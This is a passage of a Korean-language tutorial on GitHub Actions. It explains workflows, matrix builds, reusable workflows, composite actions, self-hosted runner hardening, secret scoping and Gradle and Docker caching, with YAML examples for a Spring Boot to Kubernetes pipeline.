




GitHub Actions는 Workflow, Job, Step의 3계층 구조로 구성된 이벤트 기반 자동화 엔진이다. 단순한 CI/CD 도구를 넘어, Matrix Strategy로 수십 개 조합을 병렬 테스트하고, Reusable Workflow로 조직 전체의 파이프라인을 표준화할 수 있다.

> **비유:** GitHub Actions는 공장의 자동화 라인이다. Workflow는 공장 전체 공정표, Job은 각 작업 라인(용접 라인, 도장 라인), Step은 라인 안의 개별 작업(볼트 조이기, 나사 박기)이다. Matrix Strategy는 같은 라인을 여러 개 복제해서 빨간색/파란색/흰색 차량을 동시에 생산하는 것이다.

---

## Workflow / Job / Step 아키텍처

GitHub Actions의 실행 단위는 3계층으로 나뉜다. 이 구조를 정확히 이해해야 Job 간 의존성, 데이터 전달, 병렬 실행을 올바르게 설계할 수 있다.

**Workflow**는 `.github/workflows/` 디렉토리에 있는 YAML 파일 하나에 해당한다. `on` 필드로 트리거 이벤트(push, pull_request, schedule, workflow_dispatch 등)를 정의한다. 하나의 저장소에 여러 Workflow를 둘 수 있다.

**Job**은 하나의 Runner(가상 머신)에서 실행되는 작업 묶음이다. 기본적으로 모든 Job은 **병렬 실행**된다. `needs` 키워드로 의존성을 지정하면 순차 실행도 가능하다. 각 Job은 독립된 Runner에서 실행되므로, Job 간 파일 공유는 **Artifact**를 통해야 한다.

**Step**은 Job 안에서 순차적으로 실행되는 개별 명령이다. `run`으로 셸 명령을 실행하거나, `uses`로 공개된 Action을 호출한다. 같은 Job의 Step끼리는 파일 시스템을 공유한다.

```mermaid
graph TB
    subgraph "Workflow (ci-cd.yml)"
        subgraph "Job: test (ubuntu-latest)"
            S1["Step 1: checkout"]
            S2["Step 2: setup-java"]
            S3["Step 3: run tests"]
            S1 --> S2 --> S3
        end

        subgraph "Job: build (ubuntu-latest)"
            S4["Step 1: checkout"]
            S5["Step 2: docker build"]
            S6["Step 3: docker push"]
            S4 --> S5 --> S6
        end

        subgraph "Job: deploy (ubuntu-latest)"
            S7["Step 1: kubectl apply"]
            S8["Step 2: health check"]
            S7 --> S8
        end
    end

    S3 -->|"needs: test"| S4
    S6 -->|"needs: build"| S7

    style S3 fill:#4CAF50,color:#fff
    style S6 fill:#2196F3,color:#fff
    style S8 fill:#FF9800,color:#fff
```



> **비유:** Job 간 관계는 요리 순서와 같다. 밥 짓기(test)와 국 끓이기(lint)는 동시에 할 수 있지만, 상차림(deploy)은 밥과 국이 다 된 후에야 가능하다. `needs`는 "이 요리가 끝나야 다음 요리를 시작한다"는 의존성 선언이다.

### Runner 동작 원리

Runner는 Workflow를 실제로 실행하는 머신이다. GitHub-hosted Runner와 Self-hosted Runner 두 종류가 있다.

**GitHub-hosted Runner**는 GitHub이 관리하는 클라우드 VM이다. 매 Job 실행마다 **새로운 VM**이 할당되고, Job이 끝나면 폐기된다. 깨끗한 환경이 보장되지만, 이전 빌드의 캐시가 남아있지 않다(별도 캐시 Action 필요). Ubuntu, Windows, macOS를 선택할 수 있다.

GitHub-hosted Runner의 하드웨어 스펙은 2 vCPU, 7GB RAM, 14GB SSD(Ubuntu 기준)이다. 대규모 빌드에는 부족할 수 있다. GitHub은 Larger Runner(4~64 vCPU)를 유료로 제공한다.

**Self-hosted Runner**는 자체 서버에 설치하는 Runner다. 고정된 머신에서 실행되므로 캐시가 유지되고, GPU/특수 하드웨어를 사용할 수 있다. 하지만 보안과 관리의 책임이 조직에 있다.



> **비유:** GitHub-hosted Runner는 호텔 객실이다. 투숙할 때마다 깨끗한 방(새 VM)을 받고, 체크아웃하면 방은 청소(폐기)된다. Self-hosted Runner는 자기 집이다. 항상 같은 공간이라 물건(캐시)이 그대로 있지만, 청소(보안 관리)는 스스로 해야 한다.

---

## Matrix Strategy

Matrix Strategy는 하나의 Job 정의로 여러 조합을 병렬 실행하는 기능이다. Java 11/17/21, OS별(Ubuntu/Windows), DB별(MySQL/PostgreSQL) 조합을 테스트할 때 Job을 일일이 복사하지 않아도 된다.

Matrix를 정의하면 GitHub Actions가 모든 조합의 카티션 곱(Cartesian Product)을 계산하여 각 조합마다 독립적인 Runner를 할당한다. 3개 Java 버전 x 2개 OS = 6개 Job이 동시에 실행된다.

`fail-fast` 옵션(기본 true)은 하나라도 실패하면 나머지 실행 중인 Job을 즉시 취소한다. 전체 결과를 보려면 `fail-fast: false`로 설정한다.

`include`로 특정 조합만 추가하거나, `exclude`로 특정 조합을 제외할 수 있다. 예를 들어 "Java 11 + Windows는 지원하지 않으므로 테스트 불필요"라면 exclude로 제거한다.

```yaml
jobs:
  test:
    runs-on: ${{ matrix.os }}
    strategy:
      fail-fast: false    # 하나 실패해도 나머지 계속 실행
      max-parallel: 4     # 최대 4개 동시 실행 (비용 제어)
      matrix:
        os: [ubuntu-latest, windows-latest]
        java-version: ['11', '17', '21']
        exclude:
          - os: windows-latest
            java-version: '11'     # Windows + Java 11 조합 제외
        include:
          - os: ubuntu-latest
            java-version: '21'
            experimental: true     # 추가 변수 주입

    steps:
      - uses: actions/checkout@v4

      - name: Set up JDK ${{ matrix.java-version }}
        uses: actions/setup-java@v4
        with:
          java-version: ${{ matrix.java-version }}
          distribution: 'temurin'

      - name: Run tests
        run: ./gradlew test --no-daemon

      - name: Experimental warning
        if: matrix.experimental == true
        run: echo "이 조합은 실험적입니다"
```

**이 코드의 핵심:**
- `matrix`에 os 2개 x java 3개 = 6개 조합이지만, `exclude`로 1개를 빼서 **5개 Job**이 병렬 실행된다.
- `include`로 특정 조합에만 `experimental` 변수를 추가하여 조건부 Step을 실행한다.
- `max-parallel: 4`로 동시 실행 수를 제한하여 Runner 비용을 제어한다.

> **비유:** Matrix Strategy는 식당의 세트 메뉴 조합이다. 메인(소고기/치킨/생선) x 사이드(샐러드/스프) = 6가지 조합을 한 번에 주문(정의)하면, 주방(Runner)이 각 조합을 동시에 조리한다. "생선 + 스프 조합은 맛이 없으니 빼자"가 `exclude`다.

---

## Reusable Workflow

Reusable Workflow는 **워크플로우를 함수처럼 호출**하는 기능이다. 조직에서 10개 서비스가 모두 비슷한 CI/CD 파이프라인을 사용한다면, 각 저장소마다 Workflow를 복사하는 대신 하나의 공유 Workflow를 만들고 호출하면 된다.

Reusable Workflow의 핵심은 **중앙 집중화**다. 빌드 파이프라인에 보안 스캔을 추가해야 한다면, 공유 Workflow 한 곳만 수정하면 10개 서비스에 모두 적용된다. 각 저장소를 일일이 수정할 필요가 없다.

호출하는 쪽(Caller)은 `uses`로 Reusable Workflow를 참조하고, `with`로 입력값을, `secrets`로 시크릿을 전달한다. 호출받는 쪽(Callee)은 `workflow_call` 트리거로 입력을 정의한다.

```yaml
# .github/workflows/reusable-build.yml (공유 저장소: myorg/.github)
# 이 파일이 Reusable Workflow (호출받는 쪽)
name: Reusable Spring Boot Build

on:
  workflow_call:
    inputs:
      java-version:
        required: false
        type: string
        default: '17'
      gradle-tasks:
        required: false
        type: string
        default: 'clean build'
    secrets:
      SONAR_TOKEN:
        required: true
    outputs:
      image-tag:
        description: "빌드된 Docker 이미지 태그"
        value: ${{ jobs.build.outputs.tag }}

jobs:
  build:
    runs-on: ubuntu-latest
    outputs:
      tag: ${{ steps.meta.outputs.version }}

    steps:
      - uses: actions/checkout@v4

      - name: Set up JDK
        uses: actions/setup-java@v4
        with:
          java-version: ${{ inputs.java-version }}
          distribution: 'temurin'
          cache: 'gradle'

      - name: Build & Test
        run: ./gradlew ${{ inputs.gradle-tasks }} --no-daemon

      - name: SonarQube Analysis
        run: ./gradlew sonar --no-daemon
        env:
          SONAR_TOKEN: ${{ secrets.SONAR_TOKEN }}

      - name: Docker meta
        id: meta
        uses: docker/metadata-action@v5
        with:
          images: ghcr.io/${{ github.repository }}
          tags: type=sha,format=short

      - name: Build & Push Docker Image
        uses: docker/build-push-action@v5
        with:
          push: true
          tags: ${{ steps.meta.outputs.tags }}
          cache-from: type=gha
          cache-to: type=gha,mode=max
```

**이 코드의 핵심:**
- `workflow_call` 트리거가 이 Workflow를 "호출 가능"하게 만든다.
- `inputs`로 Java 버전, Gradle 태스크를 파라미터로 받아 범용적으로 사용한다.
- `outputs`로 빌드 결과(이미지 태그)를 호출자에게 반환한다.

호출하는 쪽은 매우 간결해진다. 각 서비스 저장소에서는 2~3줄만 작성하면 된다.

```yaml
# 각 서비스 저장소의 .github/workflows/ci.yml (호출하는 쪽)
name: CI

on:
  push:
    branches: [main]

jobs:
  build:
    uses: myorg/.github/.github/workflows/reusable-build.yml@main
    with:
      java-version: '21'
      gradle-tasks: 'clean build integrationTest'
    secrets:
      SONAR_TOKEN: ${{ secrets.SONAR_TOKEN }}

  deploy:
    needs: build
    runs-on: ubuntu-latest
    steps:
      - name: Deploy to K8s
        run: |
          kubectl set image deployment/myapp \
            myapp=${{ needs.build.outputs.image-tag }}
```

**이 코드의 핵심:**
- `uses: myorg/.github/...@main`으로 다른 저장소의 Workflow를 함수처럼 호출한다.
- `needs.build.outputs.image-tag`로 Reusable Workflow의 출력값을 사용한다.

> **비유:** Reusable Workflow는 프랜차이즈 매뉴얼이다. 본사(공유 저장소)가 조리 매뉴얼(Workflow)을 만들고, 각 가맹점(서비스 저장소)은 매뉴얼을 따르되 재료(inputs)만 다르게 한다. 매뉴얼이 업데이트되면 모든 가맹점에 동시에 적용된다.

---

## Composite Action

Composite Action은 여러 Step을 하나의 Action으로 묶은 것이다. Reusable Workflow가 "전체 Workflow"를 재사용하는 것이라면, Composite Action은 "Step 몇 개"를 재사용하는 것이다.

Reusable Workflow는 별도 Job으로 실행되므로 Runner가 추가로 할당된다. Composite Action은 호출한 Job 안에서 인라인으로 실행되므로 Runner를 추가 소비하지 않는다. 간단한 재사용은 Composite Action이 효율적이다.

Composite Action은 `action.yml` 파일로 정의하며, 저장소의 특정 디렉토리에 두거나 별도 저장소에 만들어 공유한다.

```yaml
# .github/actions/gradle-build/action.yml
name: 'Gradle Build'
description: 'Gradle 빌드 + 캐시 + 테스트 리포트'

inputs:
  java-version:
    description: 'JDK 버전'
    required: false
    default: '17'
  tasks:
    description: 'Gradle 태스크'
    required: false
    default: 'clean build'

runs:
  using: 'composite'
  steps:
    - name: Set up JDK
      uses: actions/setup-java@v4
      with:
        java-version: ${{ inputs.java-version }}
        distribution: 'temurin'
        cache: 'gradle'

    - name: Grant execute permission
      shell: bash
      run: chmod +x ./gradlew

    - name: Run Gradle
      shell: bash
      run: ./gradlew ${{ inputs.tasks }} --no-daemon

    - name: Upload test report
      if: always()
      uses: actions/upload-artifact@v4
      with:
        name: test-report
        path: build/reports/tests/
        retention-days: 7
```

```yaml
# 사용하는 쪽
steps:
  - uses: actions/checkout@v4
  - uses: ./.github/actions/gradle-build   # 로컬 Composite Action 호출
    with:
      java-version: '21'
      tasks: 'clean build integrationTest'
```

**이 코드의 핵심:**
- `using: 'composite'`로 Composite Action임을 선언한다.
- 여러 Step(JDK 설정, 권한 부여, 빌드, 리포트 업로드)을 하나로 묶어 한 줄로 호출한다.
- `shell: bash`를 반드시 명시해야 한다 (Composite Action의 `run`에서 필수).

### Reusable Workflow vs Composite Action 비교

| 항목 | Reusable Workflow | Composite Action |
|------|-------------------|------------------|
| 재사용 단위 | 전체 Workflow (여러 Job) | Step 몇 개 |
| Runner | 별도 Runner 할당 | 호출한 Job의 Runner 사용 |
| Secret 전달 | `secrets` 키워드로 명시 전달 | 호출한 Workflow의 Secret 자동 접근 |
| 호출 깊이 | 최대 4단계 중첩 | 최대 10단계 중첩 |
| 적합한 경우 | CI/CD 파이프라인 전체 표준화 | 빌드/테스트 같은 부분 작업 재사용 |

> **비유:** Reusable Workflow는 외주 업체에 전체 공정을 맡기는 것이다(별도 공장, 별도 인력). Composite Action은 사내 작업자에게 작업 매뉴얼을 주는 것이다(같은 공장, 같은 인력).

---

## Self-hosted Runner 보안과 성능

Self-hosted Runner는 조직 자체 서버에서 Runner를 운영하는 방식이다. GitHub-hosted Runner의 성능/비용 제한을 넘어야 하거나, 내부 네트워크(VPN, 사내 레지스트리)에 접근해야 할 때 사용한다.

### 보안 위험과 대책

Self-hosted Runner의 가장 큰 위험은 **외부 PR에서 악성 코드가 실행되는 것**이다. 오픈소스 프로젝트에서 외부 기여자가 PR을 열면, 그 PR의 Workflow가 Self-hosted Runner에서 실행된다. 악의적인 Step이 포함되면 서버에 백도어를 심거나, 시크릿을 탈취할 수 있다.

Runner는 Job이 끝나도 머신이 초기화되지 않으므로(GitHub-hosted와 다름), 이전 Job의 파일/프로세스/환경변수가 남아있을 수 있다. Job A가 남긴 시크릿 파일을 Job B가 읽는 시나리오가 가능하다.



**방어 대책 상세:**

**1. 포크 PR 승인 필수:** 저장소 설정에서 `Require approval for all outside collaborators`를 활성화한다. 외부 PR의 Workflow는 메인테이너가 "Approve and run"을 눌러야 실행된다.

**2. 컨테이너 격리:** Runner를 Docker 컨테이너 안에서 실행하면, 호스트 머신과 격리된다. 악성 코드가 실행되어도 컨테이너 밖으로 나갈 수 없다(컨테이너 탈출 취약점 제외).

**3. 네트워크 분리:** Runner가 접근 가능한 네트워크를 제한한다. 빌드에 필요한 레지스트리/DB만 허용하고, 나머지 내부 서비스는 차단한다.

**4. Ephemeral 모드:** `--ephemeral` 플래그로 Runner를 시작하면, 하나의 Job만 실행하고 자동 종료된다. GitHub-hosted Runner처럼 매번 깨끗한 환경이 보장된다. 다만 매번 Runner를 재생성해야 하므로 Kubernetes의 Job이나 Auto Scaling Group으로 관리한다.

```yaml
# Kubernetes에서 ephemeral self-hosted runner 운영
apiVersion: actions.summerwind.dev/v1alpha1
kind: RunnerDeployment
metadata:
  name: spring-boot-runners
spec:
  replicas: 3
  template:
    spec:
      repository: myorg/myapp
      ephemeral: true              # Job 하나 실행 후 자동 폐기
      dockerEnabled: true          # Docker-in-Docker 허용
      labels:
        - self-hosted
        - linux
        - spring-boot
      resources:
        limits:
          cpu: "4"
          memory: "8Gi"
```

**이 코드의 핵심:**
- `ephemeral: true`로 매 Job마다 깨끗한 환경을 보장한다.
- `RunnerDeployment`로 Kubernetes가 Runner Pod를 자동 관리한다. 죽으면 재생성, 부하 시 스케일 아웃.
- `labels`로 특정 Runner를 지정하여 `runs-on: [self-hosted, spring-boot]`로 호출한다.

> **비유:** Ephemeral Runner는 일회용 장갑이다. 한 번 사용(Job)하고 버린다(폐기). 이전 사용의 오염(파일/프로세스)이 다음 사용에 영향을 주지 않는다. 일반 Self-hosted Runner는 고무장갑 — 세척(관리)을 잘 하면 재사용할 수 있지만, 세척이 부실하면 교차 오염이 발생한다.

---

## 실전: Spring Boot 빌드 → Docker → K8s 배포 파이프라인

지금까지 배운 개념을 모두 결합한 실전 파이프라인을 구성한다. Spring Boot 애플리케이션을 빌드하고, Docker 이미지를 만들고, Kubernetes에 배포하는 전체 흐름이다.

이 파이프라인의 설계 원칙은 다음과 같다. (1) 빠른 피드백: 테스트를 먼저 실행하여 문제를 조기에 발견한다. (2) 불변 아티팩트: Docker 이미지를 한 번만 빌드하고 모든 환경에 사용한다. (3) 단계별 승인: 스테이징은 자동, 프로덕션은 수동 승인 후 배포한다.

파이프라인은 4개 Job으로 구성된다. test → build → deploy-staging → deploy-production 순서로, 앞 Job이 성공해야 다음 Job이 실행된다.



```yaml
name: Spring Boot CI/CD Pipeline

on:
  push:
    branches: [main]
  pull_request:
    branches: [main]

env:
  REGISTRY: ghcr.io
  IMAGE_NAME: ${{ github.repository }}

jobs:
  # ── 1단계: 테스트 ──
  test:
    runs-on: ubuntu-latest
    services:
      mysql:
        image: mysql:8.0
        env:
          MYSQL_ROOT_PASSWORD: testpass
          MYSQL_DATABASE: testdb
        ports:
          - 3306:3306
        options: >-
          --health-cmd "mysqladmin ping -h 127.0.0.1"
          --health-interval 10s
          --health-timeout 5s
          --health-retries 5

    steps:
      - uses: actions/checkout@v4

      - name: Set up JDK 21
        uses: actions/setup-java@v4
        with:
          java-version: '21'
          distribution: 'temurin'
          cache: 'gradle'

      - name: Run unit tests
        run: ./gradlew test --no-daemon

      - name: Run integration tests
        run: ./gradlew integrationTest --no-daemon
        env:
          SPRING_DATASOURCE_URL: jdbc:mysql://localhost:3306/testdb
          SPRING_DATASOURCE_USERNAME: root
          SPRING_DATASOURCE_PASSWORD: testpass

      - name: Upload test results
        if: always()
        uses: actions/upload-artifact@v4
        with:
          name: test-results
          path: build/reports/tests/
          retention-days: 14

  # ── 2단계: Docker 이미지 빌드 ──
  build:
    needs: test
    runs-on: ubuntu-latest
    if: github.ref == 'refs/heads/main'
    outputs:
      image-tag: ${{ steps.meta.outputs.tags }}
      image-digest: ${{ steps.build-push.outputs.digest }}

    steps:
      - uses: actions/checkout@v4

      - name: Set up JDK 21
        uses: actions/setup-java@v4
        with:
          java-version: '21'
          distribution: 'temurin'
          cache: 'gradle'

      - name: Build JAR
        run: ./gradlew bootJar --no-daemon -x test

      - name: Log in to Container Registry
        uses: docker/login-action@v3
        with:
          registry: ${{ env.REGISTRY }}
          username: ${{ github.actor }}
          password: ${{ secrets.GITHUB_TOKEN }}

      - name: Extract Docker metadata
        id: meta
        uses: docker/metadata-action@v5
        with:
          images: ${{ env.REGISTRY }}/${{ env.IMAGE_NAME }}
          tags: |
            type=sha,format=short
            type=raw,value=latest

      - name: Build and push Docker image
        id: build-push
        uses: docker/build-push-action@v5
        with:
          context: .
          push: true
          tags: ${{ steps.meta.outputs.tags }}
          cache-from: type=gha
          cache-to: type=gha,mode=max

  # ── 3단계: 스테이징 배포 ──
  deploy-staging:
    needs: build
    runs-on: ubuntu-latest
    environment:
      name: staging
      url: https://staging.example.com

    steps:
      - name: Set up kubectl
        uses: azure/setup-kubectl@v3

      - name: Configure kubeconfig
        run: echo "${{ secrets.KUBE_CONFIG_STAGING }}" | base64 -d > $HOME/.kube/config

      - name: Deploy to staging
        run: |
          kubectl set image deployment/myapp \
            myapp=${{ needs.build.outputs.image-tag }} \
            -n staging
          kubectl rollout status deployment/myapp -n staging --timeout=5m

      - name: Run smoke tests
        run: |
          for i in {1..10}; do
            STATUS=$(curl -s -o /dev/null -w "%{http_code}" https://staging.example.com/actuator/health)
            if [ "$STATUS" == "200" ]; then
              echo "Health check passed"
              exit 0
            fi
            echo "Attempt $i: status $STATUS, retrying..."
            sleep 5
          done
          echo "Smoke test failed after 10 attempts"
          exit 1

  # ── 4단계: 프로덕션 배포 ──
  deploy-production:
    needs: [build, deploy-staging]
    runs-on: ubuntu-latest
    environment:
      name: production
      url: https://app.example.com

    steps:
      - name: Set up kubectl
        uses: azure/setup-kubectl@v3

      - name: Configure kubeconfig
        run: echo "${{ secrets.KUBE_CONFIG_PRODUCTION }}" | base64 -d > $HOME/.kube/config

      - name: Deploy to production
        run: |
          kubectl set image deployment/myapp \
            myapp=${{ needs.build.outputs.image-tag }} \
            -n production
          kubectl rollout status deployment/myapp -n production --timeout=10m

      - name: Verify deployment
        run: |
          READY=$(kubectl get deployment myapp -n production -o jsonpath='{.status.readyReplicas}')
          DESIRED=$(kubectl get deployment myapp -n production -o jsonpath='{.spec.replicas}')
          if [ "$READY" != "$DESIRED" ]; then
            echo "Deployment verification failed: $READY/$DESIRED ready"
            kubectl rollout undo deployment/myapp -n production
            exit 1
          fi
          echo "All $READY/$DESIRED replicas ready"
```

**이 코드의 핵심:**
- `services.mysql`로 테스트용 MySQL 컨테이너를 Job과 함께 실행한다. 별도 DB 서버가 필요 없다.
- `environment: production`으로 GitHub Environment Protection Rules를 적용한다. 지정된 리뷰어가 승인해야 이 Job이 실행된다.
- `outputs`로 build Job의 이미지 태그를 deploy Job에 전달한다. 같은 이미지를 staging과 production 모두에 사용(불변 아티팩트 원칙).
- 프로덕션 배포 후 `readyReplicas`를 검증하여, 실패 시 자동 롤백(`rollout undo`)한다.

---

## Secret 관리

GitHub Actions에서 시크릿은 **암호화되어 저장**되며, 로그에 자동으로 마스킹된다. 하지만 올바르게 관리하지 않으면 여전히 노출될 수 있다.

### 시크릿 계층 구조

시크릿은 3가지 범위로 설정할 수 있다. 좁은 범위를 사용할수록 안전하다.



**Organization Secrets**는 조직 내 모든 저장소에서 사용 가능하다. SonarQube 토큰, Slack Webhook 같은 공용 시크릿에 적합하다. 하지만 범위가 넓어 탈취 시 피해가 크다.

**Repository Secrets**는 해당 저장소에서만 사용 가능하다. Docker 레지스트리 비밀번호 등 저장소별 시크릿에 사용한다.

**Environment Secrets**는 특정 Environment(staging, production)에서만 사용 가능하다. 프로덕션 kubeconfig처럼 가장 민감한 시크릿은 반드시 Environment 레벨로 관리한다. Environment에 Protection Rules(필수 리뷰어, 대기 시간)를 걸 수 있어 가장 안전하다.

> **비유:** Organization Secrets는 건물 마스터키다(모든 방 열림, 위험). Repository Secrets는 사무실 키(해당 사무실만). Environment Secrets는 금고 키(금고만 열리고, 열려면 관리자 승인 필요).

### 시크릿 노출 방지 팁

시크릿은 로그에 자동 마스킹되지만, 간접적으로 노출될 수 있다.

```yaml
# 잘못된 예: 시크릿이 URL에 포함되어 curl 에러 메시지에 노출될 수 있음
- run: curl https://api.example.com?token=${{ secrets.API_TOKEN }}

# 올바른 예: 헤더로 전달
- run: |
    curl -H "Authorization: Bearer $API_TOKEN" https://api.example.com
  env:
    API_TOKEN: ${{ secrets.API_TOKEN }}
```

**이 코드의 핵심:**
- 시크릿을 URL 파라미터에 넣으면 curl 에러 시 URL 전체가 로그에 찍힌다.
- `env`로 환경 변수에 주입하고, 헤더로 전달하면 로그에 마스킹된다.

---

## 캐싱 전략 (Gradle / Docker Layer)

CI 파이프라인에서 가장 많은 시간을 잡아먹는 것이 의존성 다운로드와 Docker 이미지 빌드다. 캐싱을 올바르게 설정하면 파이프라인 시간을 50~80% 단축할 수 있다.

### Gradle 캐시

Gradle은 두 가지 캐시를 사용한다. **의존성 캐시**(다운로드한 라이브러리)와 **빌드 캐시**(컴파일 결과물)이다. 둘 다 캐싱해야 효과적이다.

`actions/setup-java`의 `cache: 'gradle'` 옵션은 의존성 캐시만 처리한다. 빌드 캐시까지 포함하려면 `actions/cache`를 별도로 설정해야 한다.

캐시 키는 `gradle.lockfile`이나 `build.gradle`의 해시값으로 생성한다. 의존성이 변경되면 캐시 키가 바뀌어 새로 다운로드하고, 변경이 없으면 캐시를 재사용한다.

```yaml
- name: Set up JDK 21
  uses: actions/setup-java@v4
  with:
    java-version: '21'
    distribution: 'temurin'
    cache: 'gradle'           # 의존성 캐시 (자동)

- name: Cache Gradle build cache
  uses: actions/cache@v4
  with:
    path: |
      ~/.gradle/caches
      ~/.gradle/wrapper
      .gradle/build-cache
    key: gradle-${{ runner.os }}-${{ hashFiles('**/*.gradle*', '**/gradle-wrapper.properties') }}
    restore-keys: |
      gradle-${{ runner.os }}-

- name: Build with Gradle
  run: ./gradlew build --no-daemon --build-cache
```

**이 코드의 핵심:**
- `key`는 `*.gradle*` 파일의 해시로 생성된다. `build.gradle`이 바뀌면 새 캐시가 만들어진다.
- `restore-keys`는 정확한 키 매칭이 안 될 때 부분 매칭으로 가장 가까운 캐시를 복원한다. 완전히 새로운 캐시보다는 낫다.
- `--build-cache` 플래그로 Gradle 빌드 캐시를 활성화한다. 소스 코드가 변경되지 않은 모듈은 재컴파일하지 않는다.

> **비유:** Gradle 캐시는 장보기 목록과 냉장고의 관계다. 목록(build.gradle)이 같으면 냉장고(캐시)에 있는 재료를 꺼내 쓴다. 목록이 바뀌면 마트(Maven Central)에 가서 새로 사온다. `restore-keys`는 "완벽히 같은 재료는 없지만, 비슷한 재료라도 있으면 꺼내 쓰자"이다.

### Docker Layer 캐시

Docker 이미지는 레이어로 구성된다. Dockerfile의 각 명령(FROM, COPY, RUN)이 하나의 레이어다. 레이어가 변경되지 않으면 캐시를 재사용한다. 하지만 **하나의 레이어가 변경되면 그 이후 모든 레이어가 재빌드**된다.

이 원리 때문에 Dockerfile 작성 순서가 중요하다. 변경이 적은 레이어(의존성 설치)를 위에, 변경이 잦은 레이어(소스 복사)를 아래에 놓아야 캐시 효율이 높다.

```dockerfile
# 잘못된 Dockerfile — 소스 변경 시 의존성도 매번 재설치
FROM eclipse-temurin:21-jre-alpine
COPY . /app                              # 소스 전체 복사 (매번 변경됨)
WORKDIR /app
RUN ./gradlew build --no-daemon          # 의존성 + 빌드 (매번 재실행)
ENTRYPOINT ["java", "-jar", "build/libs/app.jar"]
```

```dockerfile
# 올바른 Dockerfile — 의존성 레이어를 분리하여 캐시 극대화
# 1단계: 빌드 (multi-stage)
FROM eclipse-temurin:21-jdk-alpine AS builder
WORKDIR /app

# 의존성 레이어 (build.gradle 변경 시에만 재실행)
COPY build.gradle settings.gradle ./
COPY gradle ./gradle
COPY gradlew ./
RUN ./gradlew dependencies --no-daemon

# 소스 레이어 (코드 변경 시에만 재실행)
COPY src ./src
RUN ./gradlew bootJar --no-daemon -x test

